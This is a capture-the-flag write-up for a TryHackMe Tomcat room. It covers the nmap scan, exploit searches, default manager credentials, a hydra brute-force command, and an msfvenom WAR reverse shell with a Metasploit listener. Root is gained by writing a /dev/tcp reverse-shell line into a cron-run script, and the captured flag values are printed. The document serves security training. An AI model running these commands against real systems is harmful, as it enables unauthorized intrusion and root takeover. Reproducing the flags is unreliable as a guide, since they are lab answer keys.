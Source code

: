 https://tryhackme.com/room/bsidesgtthompson

# Enum

```bash
root@ip-10-10-247-45:~# nmap -sV -sC -Pn  10.10.123.79 -oA thompson

Starting Nmap 7.60 ( https://nmap.org ) at 2023-01-02 05:41 GMT
Nmap scan report for ip-10-10-123-79.eu-west-1.compute.internal (10.10.123.79)
Host is up (0.00095s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (EdDSA)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
MAC Address: 02:7C:BE:4F:82:63 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.21 seconds
```

# Search Exploit

- `Nuclei` will find `CVE-2020-1938`
- Searchsploit
```bash
root@ip-10-10-247-45:~# searchsploit tomcat 8.5
-------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                      |  Path
-------------------------------------------------------------------- ---------------------------------
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP  | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP  | windows/webapps/42953.txt
-------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results

┌──(root㉿kali)-[~/tools/frp_0.46.0_linux_amd64]
└─# searchsploit tomcat ajp
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                              |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                                                                                                           | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                                                                                                             | multiple/webapps/49039.rb
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

# Login

Ran hydra to bruteforce `/manager` but failed

```bash
hydra -C /usr/share/wordlists/SecLists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt 10.10.170.186 -s 8080 http-get /manager/html -I -vV
```

- Found default creds is `401` page - `tomcat`:`s3cret`
```html
<role rolename="admin-gui"/>
<user username="tomcat" password="s3cret" roles="admin-gui"/>
```

# Upload Reverse Shell

There's an option to deploy war file in `manager` page
![](attachment/5c4240778346975187ae7d7bc8887862.png)

## Refers 
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#war

## Generate War revshell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.2 LPORT=443 -f war > reverse.war
```

# User Flag

## Metasploit Listener

```powershell
msfconsole
search java reverse type:payload
use java/jsp_shell_reverse_tcp
set lhost=tun0
msf6 payload(java/jsp_shell_reverse_tcp) > to_handler
[*] Payload Handler Started as Job 0
```

Trigger Rev Shell
```bash
curl http://tomcat.thm:8080/reverse/
```

Upgrade Shell to meterpreter
```bash
sessions -u 1
sessions 2
```

Get pty Shell
```bash
meterpreter > execute -if bash
Process 1874 created.
Channel 7 created.

python3 -c "import pty;pty.spawn('/bin/bash')"
tomcat@ubuntu:/home/jack$ 
```

FLAG
```bash
tomcat@ubuntu:/home/jack$ cat user.txt
39400c90bc683a41a8935e4719f181bf
```

# Root

`id.sh` is writeable
```bash
ls -la
total 48
drwxr-xr-x 4 jack jack 4096 Aug 23  2019 .
drwxr-xr-x 3 root root 4096 Aug 14  2019 ..
-rw------- 1 root root 1476 Aug 14  2019 .bash_history
-rw-r--r-- 1 jack jack  220 Aug 14  2019 .bash_logout
-rw-r--r-- 1 jack jack 3771 Aug 14  2019 .bashrc
drwx------ 2 jack jack 4096 Aug 14  2019 .cache
drwxrwxr-x 2 jack jack 4096 Aug 14  2019 .nano
-rw-r--r-- 1 jack jack  655 Aug 14  2019 .profile
-rw-r--r-- 1 jack jack    0 Aug 14  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root root  183 Aug 14  2019 .wget-hsts
-rwxrwxrwx 1 jack jack   19 Jan  2 02:15 id.sh
-rw-r--r-- 1 root root   39 Jan  2 02:02 test.txt
-rw-rw-r-- 1 jack jack   33 Aug 14  2019 user.txt
```

Check crontab
```bash
cat /etc/crontab
*  *    * * *   root    cd /home/jack && bash id.sh
```

Write Revshell
```bash
echo "bash -i >& /dev/tcp/10.11.19.145/1111 0>&1" > id.sh
```

Wait for cronjob to exec the shell script as root
```bash
┌──(root㉿kali)-[/home/kali]
└─# rlwrap nc -lvnp 1111
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1111
Ncat: Listening on 0.0.0.0:1111
Ncat: Connection from 10.10.170.186.
Ncat: Connection from 10.10.170.186:58960.
bash: cannot set terminal process group (14018): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack# cat /root/root.txt
cat /root/root.txt
d89d5391984c0450a95497153ae7ca3a
root@ubuntu:/home/jack# 
```

